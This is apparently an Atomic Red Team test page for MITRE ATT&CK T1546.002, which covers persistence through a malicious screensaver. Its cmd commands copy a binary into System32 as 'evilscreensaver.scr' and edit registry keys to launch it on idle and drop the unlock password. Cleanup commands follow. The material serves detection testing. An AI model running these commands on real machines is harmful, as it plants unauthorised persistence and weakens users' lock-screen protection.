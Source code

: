 ```yaml
---
tags: [T1546_002, atomic_test]
filename: "[[T1546.002|T1546.002 - Event Triggered Execution: Screensaver]]"
---
```


# T1546.002 - Event Triggered Execution: Screensaver
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/002)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by user inactivity. Screensavers are programs that execute after a configurable time of user inactivity and consist of Portable Executable (PE) files with a .scr file extension.(Citation: Wikipedia Screensaver) The Windows screensaver application scrnsave.scr is located in <code>C:\Windows\System32\</code>, and <code>C:\Windows\sysWOW64\</code>  on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (<code>HKCU\Control Panel\Desktop\</code>) and could be manipulated to achieve persistence:

* <code>SCRNSAVE.exe</code> - set to malicious PE path
* <code>ScreenSaveActive</code> - set to '1' to enable the screensaver
* <code>ScreenSaverIsSecure</code> - set to '0' to not require a password to unlock
* <code>ScreenSaveTimeout</code> - sets user inactivity timeout before screensaver is executed

Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain timeframe of user inactivity.(Citation: ESET Gazer Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Set Arbitrary Binary as Screensaver](#atomic-test-1---set-arbitrary-binary-as-screensaver)


<br/>

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


**auto_generated_guid:** 281201e7-de41-4dc9-b73d-f288938cbb64





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | path | C:&#92;Windows&#92;System32&#92;cmd.exe|
| reboot | Set to non-zero value if you want the test to reboot the system so that changes take effect | integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg export "HKEY_CURRENT_USER\Control Panel\Desktop" %userprofile%\backup.reg
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
if #{reboot} NEQ 0 shutdown /r /t 0
```

#### Cleanup Commands:
```cmd
reg import %userprofile%\backup.reg
del %userprofile%\backup.reg
del %SystemRoot%\System32\evilscreensaver.scr
```





<br/>
